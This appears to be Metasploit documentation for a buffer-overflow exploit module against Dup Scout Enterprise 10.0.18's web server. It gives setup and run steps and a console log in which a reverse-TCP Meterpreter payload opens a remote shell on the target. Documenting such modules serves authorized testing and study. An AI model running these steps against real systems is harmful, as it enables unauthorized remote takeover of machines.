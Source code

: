 ## Vulnerable Application

  Tested on Windows 10 x64

  Install the application from the link below and enable the web server by going to Tools -> Advanced Options -> Server -> Enable Web Server on Port.

  [Dup Scout Enterprise v 10.0.18](https://www.exploit-db.com/apps/84dcc5fe242ca235b67ad22215fce6a8-dupscoutent_setup_v10.0.18.exe)

## Verification Steps

  1. Install the application and set the option above to enable the web server
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/dup_scout_enterprise_login_bof```
  5. Set options and payload
  6. Do: ```run```
  7. You should get a shell.

## Options

  **RHOST**

  IP address of the remote host running the server.

  **RPORT**

  Port that the web server is running on.  Default is 80 but it can be changed when setting up the program or in the options.

## Scenarios

  To obtain a shell:

  ```
msf > use exploit/windows/http/dup_scout_enterprise_login_bof
msf exploit(windows/http/dup_scout_enterprise_login_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/http/dup_scout_enterprise_login_bof) > set rhost 192.168.1.171
rhost => 192.168.1.171
msf exploit(windows/http/dup_scout_enterprise_login_bof) > set lhost 192.168.1.252
lhost => 192.168.1.252
msf exploit(windows/http/dup_scout_enterprise_login_bof) > run

[*] Started reverse TCP handler on 192.168.1.252:4444
[*] Generating exploit...
[*] Triggering the exploit now...
[*] Sending stage (179779 bytes) to 192.168.1.171
[*] Meterpreter session 1 opened (192.168.1.252:4444 -> 192.168.1.171:58969) at 2017-12-09 02:01:41 -0600
  ```
